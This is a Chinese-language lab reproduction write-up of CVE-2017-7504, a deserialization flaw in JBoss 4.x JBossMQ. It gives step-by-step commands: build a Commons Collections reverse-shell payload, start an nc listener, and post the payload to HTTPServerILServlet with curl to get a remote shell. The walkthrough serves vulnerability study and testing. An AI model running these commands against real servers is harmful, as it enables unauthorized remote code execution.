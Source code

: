 ```yaml
---
title: "（CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞"
id: zhfly2985
---
```


# （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞

## 一、漏洞简介

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、漏洞影响

JBoss AS 4.x及之前版本

## 三、复现过程

win7一台，ip为172.26.1.127（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入[http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet](http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet)，如果显示下图，则可能存在漏洞

![image](../img/de40c2aec33a4e703aa9f6c5db7b0acd.png)

进入kali攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

> 继续执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

```
curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](../img/818dfb03acd790896390d942fdf309ea.png)

回到nc界面，发现shell已经反弹回来了

![image](../img/20c470ebb8a3c17780df9af03a09651c.png)